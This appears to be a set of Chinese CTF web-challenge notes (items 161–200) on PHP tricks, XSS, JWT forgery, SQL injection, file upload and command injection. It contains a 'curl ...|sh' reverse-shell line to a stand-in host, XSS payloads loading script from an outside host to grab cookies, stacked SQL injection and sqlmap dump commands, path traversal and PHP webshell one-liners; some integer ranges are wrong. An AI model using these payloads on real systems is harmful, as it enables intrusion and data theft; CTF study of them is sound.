




## 161.无一幸免


不知道是不是提出错了 arr是赋值而不是比较 那0赋值什么都可以

$arr[]=1 意思是给数组下一个下标赋值为1

如果题目是==
payload：

```
?0=214748364   //使用数组整型溢出绕过赋值式“永真”
?0[]=1   //数组绕过
```

## 162.传说之下（雾）

贪吃蛇游戏 如果代码在前端的话 改个分数就行了


直接改分数

或者改加分机制

## 163.easyPytHon_P


想用cmd=cat&param= / 但是看不了当前目录 所以只能用awk

python中有一个awk命令，可以执行系统命令，长度刚好为3，格式为

```python
awk '{system("ls")}'
```


POST: cmd=awk&param={system("cat flag.txt")} 

或者平台反弹

shell cmd=awk&param={system("curl https://your-shell.com/ip:port|sh")}

## 164.遍地飘零


### 变量覆盖


## 165.茶歇区


像是整数溢出题

先输入很大的数

看提示就是本系统最大范围

这是各位数表示范围uint8 -> 0-255
uint16 -> 0-65535
uint32 -> 0-4294967295
uint36 -> 0-18446744073709551615
int8 -> -127-128
int16 -> -32768-32767
int32 -> -2147483648-2147483647
int64 -> -9223372036854775808-9223372036854775807 


再买一次 拿到flag

## 166.小舔田？

序列化


## 167.LSB探姬

先看源码

发现有命令执行

抓包 命令执行


## 168.Is_Not_Obfuscate


查看源代码中的提示

git有回显

扫描和源码的提示中 只有robots.txt有回显

去看一下lib.php?flag=0没东西 换flag的值有东西 发现不是简单的解码想到提示让我放到index.php去test一下

?input=加密源码的url编码&action=test


`is_dir` 函数检查当前目录下是否存在名为 `plugins` 的目录

思路就是先push 通过output写入要执行的命令 然后在pull找到文件路径后读取

所以先push

```
 <?php echo `ls /`;?>
```

或者

```php
<?php system('ls /');?>
```

然后MD5加密

把hash值pull


cat flag即可

看wp学到一句话木马的rce注入方式


## 169.龙珠NFT


1. ```python
   1. \# !/usr/bin/env python
   2. \# -*-coding:utf-8 -*-
   3. """
   4. \# File       : app.py
   5. \# Time       ：2022/10/20 15:16
   6. \# Author     ：g4_simon
   7. \# version    ：python 3.9.7
   8. \# Description：DragonBall Radar (BlockChain)
   9. """
   10. import hashlib
   11. from flask import *
   12. import os
   13. import json
   14. import hashlib
   15. from Crypto.Cipher import AES
   16. import random
   17. import time
   18. import base64
   19. \#网上找的AES加密代码，加密我又不懂，加就完事儿了
   20. class AESCipher():
   21. ​    def __init__(self,key):
   22. ​        self.key = self.add_16(hashlib.md5(key.encode()).hexdigest()[:16])
   23. ​        self.model = AES.MODE_ECB
   24. ​        self.aes = AES.new(self.key,self.model)
   25. ​    def add_16(self,par):
   26. ​        if type(par) == str:
   27. ​            par = par.encode()
   28. ​        while len(par) % 16 != 0:
   29. ​            par += b'\x00'
   30. ​        return par
   31. ​    def aesencrypt(self,text):
   32. ​        text = self.add_16(text)
   33. ​        self.encrypt_text = self.aes.encrypt(text)
   34. ​        return self.encrypt_text
   35. ​    def aesdecrypt(self,text):
   36. ​        self.decrypt_text = self.aes.decrypt(text)
   37. ​        self.decrypt_text = self.decrypt_text.strip(b"\x00")
   38. ​        return self.decrypt_text
   39. \#初始化全局变量
   40. app = Flask(__name__)
   41. flag=os.getenv('FLAG')
   42. AES_ECB=AESCipher(flag)
   43. app.config['JSON_AS_ASCII'] = False
   44. \#懒得弄数据库或者类，直接弄字典就完事儿了
   45. players={}
   46. @app.route('/', methods=['GET'])
   47. def index():
   48. ​    """
   49. ​    提供登录功能
   50. ​    """
   51. @app.route('/radar',methods=['GET','POST'])
   52. def radar():
   53.    """
   54.    提供雷达界面
   55.    """
   56. @app.route('/find_dragonball',methods=['GET','POST'])
   57. def  find_dragonball():
   58. ​    """
   59. ​    找龙珠，返回龙珠地址
   60. ​    """
   61. ​    xxxxxxxxxxx#无用代码可以忽略
   62. ​    if search_count==10:#第一次搜寻，给一个一星龙珠
   63. ​        dragonball="1"
   64. ​    elif search_count<=0:
   65. ​        data={"code":1,"msg":"搜寻次数已用完"}
   66. ​        return jsonify(data)
   67. ​    else:
   68. ​        random_num=random.randint(1,1000)
   69. ​        if random_num<=6:
   70. ​            dragonball=一个没拿过的球，比如'6'
   71. ​        else:
   72. ​            dragonball='0'#0就代表没有发现龙珠
   73. ​    players[player_id]['search_count']=search_count-1
   74. ​    data={'player_id':player_id,'dragonball':dragonball,'round_no':str(11-search_count),'time':time.strftime('%Y-%m-%d %H:%M:%S')}
   75. ​    \#json.dumps(data)='{"player_id": "572d4e421e5e6b9bc11d815e8a027112", "dragonball": "1", "round_no": "9", "time":"2022-10-19 15:06:45"}'
   76. ​    data['address']= base64.b64encode(AES_ECB.aesencrypt(json.dumps(data))).decode()
   77. ​    return jsonify(data)
   78. @app.route('/get_dragonball',methods=['GET','POST'])
   79. def get_dragonball():
   80. ​    """
   81. ​    根据龙珠地址解密后添加到用户信息
   82. ​    """
   83. ​    xxxxxxxxx#无用代码可以忽略
   84. ​    try:
   85. ​        player_id=request.cookies.get("player_id")
   86. ​        address=request.args.get('address')
   87. ​        data=AES_ECB.aesdecrypt(base64.b64decode(address))
   88. ​        data=json.loads(data.decode())
   89. ​        if data['dragonball'] !="0":
   90. ​            players[data['player_id']]['dragonballs'].append(data['dragonball'])
   91. ​            return jsonify({'get_ball':data['dragonball']})
   92. ​        else:
   93. ​            return jsonify({'code':1,'msg':"这个地址没有发现龙珠"})
   94. ​    except:
   95. ​        return jsonify({'code':1,'msg':"你干啥???????"})
   96. @app.route('/flag',methods=['GET','POST'])
   97. def get_flag():
   98. ​    """
   99. ​    查看龙珠库存
   100. ​    """
   101. ​    \#如果有7颗龙珠就拿到flag~
   102. @app.route('/source',methods=['GET','POST'])
   103. def get_source():
   104. ​    """
   105. ​    查看源代码
   106. ​    """
   107. if __name__ == '__main__':
   108. ​    app.run(host='0.0.0.0',port=80,debug=False)
   ```

   

## 170.xss 存储型


## 171 xss  反射型

第一个框内注入后 复制url，把它复制到第二个框框发送，在我们的xss平台的项目中就会显示刚刚的数据包的信息，在cookie中发现了flag


## 172.xss DOM反射


要构造一个闭合

源码：
<script>
  $("#text")[0].innerHTML = 'CTFHub is very niubility';
</script>
传入，闭合处理后：

```javascript
 <script>
        $("#text")[0].innerHTML = '';
 </script>
<sCRiPt/SrC=//xs.pe/LIg>；
</script>
```


## 173.xss DOM跳转




发现第一行输入不了  分析一下，代码意思是 从当前页面的URL中获取查询字符串（URL的get参数），如果参数名为"jumpto"，则将页面重定向到参数值所指定的URL


## 174.xss 过滤空格


正常注入发现空格没了


尝试后好像只有/**/来代替空格


## 175.xss 过滤关键词

本题直接过了 复制的代码

```javascript
<sCRiPt sRC=//xs.pe/LIg></sCrIpT>
```

就是大小写混着的 所以直接过滤了


## 176 jwt 敏感信息泄露


随便输入都是可以进入的


## 177.jwt 无签名

一些JWT库也支持none算法，即不使用签名算法。当alg字段为空时，后端将不执行签名验证。


看到回显就知道是要修改guest为admin

先解密看看

进行none攻击输出后进行拼接，再解密，看到已经修改了

那自己修改role在放包即可

## 178.jwt 弱密钥

如果JWT采用对称加密算法，并且密钥的强度较弱的话，攻击者可以直接通过蛮力攻击方式来破解密钥。


字典暴不出来  换工具

扫到秘钥，填入后，HS加密


## 179.SICTF [2023]兔年大吉

打开直接看源码


基本的pop链

## 180.变量1

### 超全局变量GLOBALS


抓住两个地方，一个是正则表达式匹配，不匹配则直接die，该正则表达式应该是匹配都是字母的串。然后最关键的是最后的$$args,这是可变变量的意思，如$args的值是另一个变量的变量名。那么$$args就代表另一个变量。所以我们就给args赋值一个变量名，那么PHP的九大全局变量，一个一个试。

- $_POST [用于接收post提交的数据]
- $_GET [用于获取url地址栏的参数数据]
- $_FILES [用于文件就收的处理img 最常见]
- $_COOKIE [用于获取与setCookie()中的name 值]
- $_SESSION [用于存储session的值或获取session中的值]
- $_REQUEST [具有get,post的功能，但比较慢]
- SERVER[是预定义服务器变量的一种，所有SERVER[是预定义服务器变量的一种，所有_SERVER [是预定义服务器变量的一种，所有_SERVER开头的都
- $GLOBALS [一个包含了全部变量的全局组合数组]
- $_ENV [ 是一个包含服务器端环境变量的数组。它是PHP中一个超级全局变量，我们可以在PHP 程序的任何地方直接访问它]

当args=GLOBALS时，flag出现。（$$args====>我们可以猜想$args很有可能是一个[数组](https://edu.csdn.net/course/detail/40020?utm_source=glcblog&spm=1001.2101.3001.7020)，应该想到的就是超全局变量$GLOBALS，他是用存储全局变量的，全局变量的值在这个超级全局变量里面是一个键值）

array(7) { ["GLOBALS"]=> *RECURSION* ["_POST"]=> array(0) { } ["_GET"]=> array(1) { ["args"]=> string(7) "GLOBALS" } ["_COOKIE"]=> array(0) { } ["_FILES"]=> array(0) { } ["ZFkwe3"]=> string(38) "flag{92853051ab894a64f7865cf3c2128b34}" ["args"]=> string(7) "GLOBALS" }

## 181.[BJDCTF2020]Mark loves cat


用githack扫出来文件


1.?yds=flag

2.?handsome=flag&flag=b&b=flag

3.?handsome=flag&flag=handsome

4.?is=flag&flag=flag

5.?1=flag&flag=1


## 182.post-the-get


POST点不了，打开控制台去修改 再点击POST

根据提示 把上面/send的GET也改成POST再点开就可

## 183.本地管理员


看到n后面有信息


写XFF后结束


## 184.game1


## 185.源代码


16进制解码


unescape() 函数可对通过 escape() 编码的字符串进行解码。


## 186.**TEST NC**


## 187Level 24 Pacman


用鼠标右键打开控制台 发现被混淆了


输入sco跳出参数名就是_SCORE 修改后游戏故意死亡后 给码但是base64解码解开不是flag


实在解不开 看hint

脚本解开

## 188 Level 47 BandBomb

应该是文件上传漏洞 随便上传一个文件抓包看看

审计代码

## 189.[LitCTF 2023]作业管理系统




## 190.easyupload2.0


过滤了php，jpg改php也不行，改phtml


## 191.[LitCTF 2023]PHP是世界上最好的语言！！


发现能注入 再看题干说flag在更目录下，直接cat  /flag

## 192.[极客大挑战 2019]EasySQL1


### 

## 193.[HCTF 2018]WarmUp

又做一遍

?file=source.php%253f../../../../../ffffflllllllaaaagggg

## 194[SUCTF 2019]EasySQL


爆破屏蔽字段，最后发现只能堆叠注入

1；show databases; 

1;show tables;


输入 *，1 后，sql语句就变成了 select * , 1 || flag from Flag。

其中分为两部分： (1) select * from Flag(2) select 1 || flag from Flag。

select * from Flag 通过查看表Flag中的所有数据可以 get到flag。


## 195 [极客大挑战 2019]LoveSQL


### 


### 

union select 1,2 3

PS D:\sqlmap-master> python sqlmap.py -r C:\Users\lin\Desktop\1.txt -p username --batch --dbs


PS D:\sqlmap-master> python sqlmap.py -r C:\Users\lin\Desktop\1.txt -p username --batch -D geek --tables

sqlmap.py -r 1.txt -p username --batch -D geek -T l0ve1ysq1 --dump


## 196.[GXYCTF2019]Ping Ping Ping


内联执行，就是将反引号内命令的输出作为输入执行：

## 197.[极客大挑战 2019]Secret File

考点是查看源代码以及自动跳转拦截


php伪协议直接攻克

## 198.[强网杯 2019]随便注

### 


1';show databases; 



show tables；


show columns from `words`;(有反引号)


select被过滤，第一种：**hander语句代替select语句。**　

　　语法结构：
　　　　HANDLER tbl_name OPEN [ [AS] alias]
　　　　HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
　　　　[ WHERE where_condition ] [LIMIT ... ]
　　　　HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
　　　　[ WHERE where_condition ] [LIMIT ... ]
　　　　HANDLER tbl_name READ { FIRST | NEXT }
　　　　[ WHERE where_condition ] [LIMIT ... ]
　　　　HANDLER tbl_name CLOSE

　　　　解释：通过handler语句查询users表的内容
　　　　handler users open as yunensec; #指定数据表进行载入并将返回句柄重命名
　　　　handler yunensec read first; #读取指定表/句柄的首行数据
　　　　handler yunensec read next; #读取指定表/句柄的下一行数据
　　　　handler yunensec read next; #读取指定表/句柄的下一行数据
　　　　...
　　　　handler yunensec close; #关闭句柄

　　　　Payload: 1';handler `1919810931114514` open as `kay`;handler `kay` read next;#

 　　　得到flag.

　第二种：**更改表明列名**

　　　　虽然正则过滤过滤了很多函数，但没过滤alert和rename等关键字。

　　　　我们如果将表1919810931114514名字改为words，flag列名字改为id，那么我们就能得到flag的内容了！

然后使用"1' or 1=1;#"即可查出flag.


## 199.[极客大挑战 2019]Http

查看源码找到不可页面点击进入的隐藏页面 然后按要求更改报文


## 200.[极客大挑战 2019]Upload

看题目就是文件上传漏洞，要求上传图片


上传发现有绕过

加个空格

先上传不同的文件类型 发现是黑名单屏蔽php文件以及<?内容 

于是用phtml文件类型 文件头伪造gif形式GIF89a 且用java+PHP写一句话木马 上传成功猜测上路径 蚁剑连接结束

